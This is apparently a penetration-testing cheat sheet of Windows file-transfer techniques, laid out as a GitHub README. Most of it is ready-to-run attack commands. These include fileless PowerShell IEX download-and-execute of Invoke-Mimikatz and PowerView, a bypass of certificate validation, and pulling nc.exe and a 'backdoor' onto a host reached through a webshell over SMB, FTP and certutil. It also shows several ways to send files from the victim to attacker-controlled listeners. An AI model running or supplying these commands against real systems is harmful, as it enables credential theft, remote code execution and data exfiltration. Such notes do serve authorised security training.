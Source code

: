 # Content
- [Download Operations](#download-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode)
  - [PowerShell HTTP Downloads](#2-powershell-http-downloads)
  - [PowerShell SMB Downloads](#3-powershell-smb-downloads)
  - [PowerShell FTP Downloads](#4-powershell-ftp-downloads)
- [Upload Operations](#upload-operations)
  - [PowerShell Base64 Encode & Decode](#1-powershell-base64-encode--decode-1)
  - [PowerShell HTTP Upload](#2-powershell-http-upload)
  - [PowerShell SMB Uploads](#3-powershell-smb-uploads)
  - [PowerShell FTP Uploads](#4-powershell-ftp-uploads)

- [Living off The Land](#living-off-the-land)

# Download Operations

## 1) PowerShell Base64 Encode & Decode
if you have access to terminal using a webshell you can 


- base64 a file that you want to transfer
```bash
$ cat backdoor| base64 -w 0 ; echo
YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo=


$ md5sum shell
2eebc05b20651f70efb2d195bbdaf2c2  shell
```


- paste it in powershell
```powershell
PS C:\user> [IO.File]::WriteAllBytes("C:\Users\public\Desktop\testing\backdoor",[Convert]::FromBase64String("YmFkIHRoaW5ncyBoYXBwZW4gaGVyZQo="))


PS C:\user> Get-FileHash .\backdoor -Algorithm MD5

Algorithm       Hash                                                                   Path                                 
---------       ----                                                                   ----                                 
MD5             2EEBC05B20651F70EFB2D195BBDAF2C2  
```



**Note:** While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.

## 2) PowerShell HTTP Downloads

### 1) PowerShell DownloadFile Method
```powershell
(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
```

### 2) PowerShell DownloadString - Fileless Method
- `IEX` It is a cmdlet used to evaluate or execute a string as a PowerShell command.
```powershell
PS C:\user> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')

PS C:\user> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
### 3) PowerShell Invoke-WebRequest
```powershell
PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1

PS C:\user> Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -UseBasicParsing | IEX
```

if the certificate is not trusted. We can bypass that error with the following command:
```powershell
PS C:\user> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
## 3) PowerShell SMB Downloads
- create smbserver
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare

sudo /usr/share/doc/python3-impacket/examples/smbserver.py share -smb2support ./shareIsCare -user test -password test
```
- copy files using powershell
```powershell
PS C:\user> copy \\192.168.220.133\share\nc.exe


PS C:\user> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

PS C:\user> copy n:\nc.exe
        1 file(s) copied.
```
## 4) PowerShell FTP Downloads

```bash
sudo python3 -m pyftpdlib --port 21
```

- Download Using PowerShell
```powershell
PS C:\user> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

- Download using Command File for the FTP Client and Download the Target File
```powershell
C:\user> echo open 192.168.49.128 > ftpcommand.txt
C:\user> echo USER anonymous >> ftpcommand.txt
C:\user> echo binary >> ftpcommand.txt
C:\user> echo GET file.txt >> ftpcommand.txt
C:\user> echo bye >> ftpcommand.txt
C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\user>more file.txt
This is a test file
```

## CMD 

```cmd 
certutil -urlcache -get https://server/file.txt c:\file.txt
```

# Upload Operations

## 1) PowerShell Base64 Encode & Decode

- encode file
```powershell
PS C:\user> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))

PS C:\user> Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash

Hash
----
3688374325B992DEF12793500307566D
```
- paste it to decode
```bash
KiroMaged@htb[/htb]$ echo <base64>| base64 -d > hosts
```

## 2) PowerShell HTTP Upload

### Invoke-FileUpload to Python Upload Server
- listen 
```bash
$ python3 -m uploadserver 9999
File upload available at /upload
Serving HTTP on 0.0.0.0 port 9999 (http://0.0.0.0:9999/) ...

```
-  send req
```powershell
PS C:\user> IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
PS C:\user> Invoke-FileUpload -Uri http://172.24.121.19:9999/upload -File C:\Windows\System32\drivers\etc\hosts

```

### PowerShell Base64 Web Upload
- listen  
```bash
$  nc -lvnp 8000
listening on [any] 8000 ...
```
-  send req
```powershell
PS C:\user> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\user> Invoke-WebRequest -Uri http://172.24.121.19:8000/ -Method POST -Body $b64
```

## 3) PowerShell SMB Uploads

- most encrionment will prevent outgoing smb connection so we can use The WebDAV protocol , which enables a webserver to behave like a fileserver, supporting collaborative content authoring. WebDAV can also use HTTPS.

- other than that we can use the same method in download section
```bash
$ sudo pip install wsgidav cheroot
$ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```

```powershell
PS C:\user> dir \\192.168.49.128\DavWWWRoot

PS C:\user> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```

## 4) PowerShell FTP Uploads

```bash 
sudo python3 -m pyftpdlib --port 21 --write
```

```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

```powershell
PS C:\user> echo open 192.168.49.128 > ftpcommand.txt
PS C:\user> echo USER anonymous >> ftpcommand.txt
PS C:\user> echo binary >> ftpcommand.txt
PS C:\user> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
PS C:\user> echo bye >> ftpcommand.txt
PS C:\user> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```


# Living off The Land
check in [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io/#) and search for upload and download
